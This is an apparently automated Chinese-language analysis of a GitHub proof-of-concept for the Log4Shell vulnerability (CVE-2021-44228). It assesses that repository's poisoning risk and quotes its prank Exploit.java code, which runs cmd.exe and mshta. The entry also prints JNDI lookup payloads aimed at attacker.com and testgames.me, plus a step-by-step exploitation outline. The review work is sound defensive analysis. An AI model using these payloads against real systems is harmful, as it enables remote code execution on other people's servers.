 ## CVE-2021-44228-Log4Shell

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致完全控制受影响的系统

**影响版本:** 2.0-beta9 to 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1)

**利用条件:** 应用程序使用受影响版本的Log4j2，并允许攻击者控制Log4j2可以记录的日志消息。

**POC 可用性:** 是

**投毒风险:** 20%

## 详情

CVE-2021-44228，又名Log4Shell，是一个存在于Apache Log4j2中的高危远程代码执行漏洞。该漏洞源于Log4j2的JNDI特性，该特性允许从LDAP和其他JNDI相关端点加载代码。攻击者可以通过控制Log4j2记录的日志消息或日志消息参数，注入恶意的JNDI查找字符串，例如`${jndi:ldap://attacker.com/evil}`。当Log4j2解析包含恶意JNDI查找的日志消息时，它将尝试连接到攻击者控制的LDAP服务器，并下载并执行恶意代码。 

**有效性：**
提供的POC代码是有效的，它演示了如何利用该漏洞。`log4j.java`文件中的代码设置了`com.sun.jndi.ldap.object.trustURLCodebase`和`com.sun.jndi.rmi.object.trustURLCodebase`为`true`, 这使得可以通过JNDI注入执行远程代码。它记录了一个包含JNDI查找字符串的错误信息`${jndi:ldap://testgames.me:1389/Exploit}`，这将触发Log4j2尝试从`testgames.me`下载和执行代码。

**投毒风险：**
此仓库中存在一定的投毒风险。`Exploit.java` 文件包含以下可疑代码：
```java
Runtime.getRuntime().exec("cmd.exe /c mshta vbscript:msgbox(\"少爷，该启动原神了\",64,\"来自log4j的消息\"(window.close)");
String shortcutPath = "C:\\Users\\此处填写用户文件夹名\\Desktop\\原神.lnk";
Runtime.getRuntime().exec("cmd.exe /c start " + shortcutPath);
```
这段代码的意图是弹出一个消息框，内容为“少爷，该启动原神了”，并尝试启动桌面上的“原神.lnk”快捷方式。这可能是一种幽默的恶作剧，但也可能被用于更恶意的目的，例如，如果“原神.lnk”快捷方式被替换为指向恶意程序的快捷方式。此外，代码中包含硬编码的用户名路径“C:\Users\此处填写用户文件夹名\Desktop\原神.lnk”，这表明代码可能未经过充分测试，或者作者可能希望用户在未经仔细检查的情况下直接使用代码。

**利用方式：**
1.  **找到易受攻击的应用程序：** 找到使用Apache Log4j2库的应用程序，并且该应用程序记录用户可控的输入。
2.  **注入恶意JNDI查找：** 将包含恶意JNDI查找的字符串（例如`${jndi:ldap://attacker.com/evil}`）注入到应用程序可以记录的输入中。这可以通过多种方式完成，例如，通过HTTP请求头、表单字段或任何其他应用程序记录的输入。
3.  **LDAP服务器响应：** 设置一个恶意的LDAP服务器，该服务器提供一个包含恶意代码的Java类。
4.  **代码执行：** 当Log4j2解析包含恶意JNDI查找的日志消息时，它将连接到攻击者的LDAP服务器，下载恶意Java类，并执行其中的代码。

根据文件内容和代码意图分析，初步估计投毒风险约为20%，主要是 `Exploit.java` 中的“原神”相关代码的潜在恶意利用可能性，以及硬编码路径带来的风险。


**项目地址:** [Super-Binary/cve-2021-44228](https://github.com/Super-Binary/cve-2021-44228)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)